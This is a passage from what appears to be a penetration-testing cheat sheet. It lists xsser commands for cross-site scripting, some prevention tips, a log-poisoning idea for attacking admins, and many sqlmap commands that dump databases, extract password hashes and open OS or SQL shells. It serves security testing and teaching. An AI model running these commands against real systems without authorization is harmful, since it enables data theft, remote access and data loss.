  - `xsser --gtk`
 - `xsser --url "https://pentest-experts.com/index.php?page=dns-lookup.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS" --cookie "PHPSESSID=gp9j95cv3q1tki2nsg8mml4lt6;showhints=0" --drop-cookie --auto --reverse-check -s`
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

**Prevention tips:**

 - Using XSS prevention headers.
 - Using the appropriate Content-Type for the page, like `X-Content-Type-Options=nosniff`.
 - Using `Content-Security-Policy` options, like `script-src 'self'`, which only allows locally hosted scripts. (https://web.dev/articles/csp?hl=en)
 - Using the `HttpOnly` and `Secure` cookie flags to prevent JavaScript from reading cookies and only transport them over HTTPS.

**Log poisioning to attack admin users**

 - Poision webserver logs e.g. via `User-Agent` header with XSS or HTMLi code to attack admin users viewing logs in a web interface.


## SQLi / NoSQLi

**SQLi**

You can change `--risk` to try riskier statements but some SQLi injection points like an `UPDATE` statement can overwrite all data in a table when combined with a `OR`-based payload (`--risk 3`). The setting `--risk 2` adds heavy time-based queries.

 - `sqlmap -r request.txt --level 5 --risk 3 -p vulnerable_field --random-agent --dbs`  
   Use captured request from ZAP / BurpSuite and use a random user agent string instrad of the sqlmap UA sting as many WAFs drop requests from sqlmap.
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --level 5 --risk 1 -p search --dbs`
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --level 5 --risk 1 -p search -D db_name --tables`
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --level 5 --risk 1 -p search -D db_name -T table_name --dump`
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/search/xxx*" --cookie="SID=123456ABC" --level 5 --risk 1 --dbs`  
   Explot the serach-value `xxx` in "nice" URLs - `*` can be used an marker in any field like cookies or GET-parameters, not only in "nice" URLs.
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --prefix "'" --suffix " -- "`  
   Specify suffix to start the SQLi and suffix to comment the left-overs out
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --technique U`  
   Specify query type - here UNION queries
 - `` 
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --os-pwn`
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --os-shell`
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --sql-shell`
 - `sqlmap -r request.txt --parse-errors --dbs`  
   Parse SQL errors and output them to the console
 - `sqlmap -r request.txt --code=200 --dbs`  
   Use HTTP response code 200 to detect `True` - useful in case a `False` response would result in a different status code (e.g. 500 server error or 302 redicrection).
 - `sqlmap -r request.txt --string="Welcome" --dbs`  
   Detect `True` / `False` responses based on the presence / absence of a string.
 - `sqlmap -r request.txt --union-cols=5 --dbs`  
   Specify the number of coulumns for a unin based query manually.
 - `sqlmap -r request.txt --passwords`  
   Get the password-hashes from the users within the DBMS itself.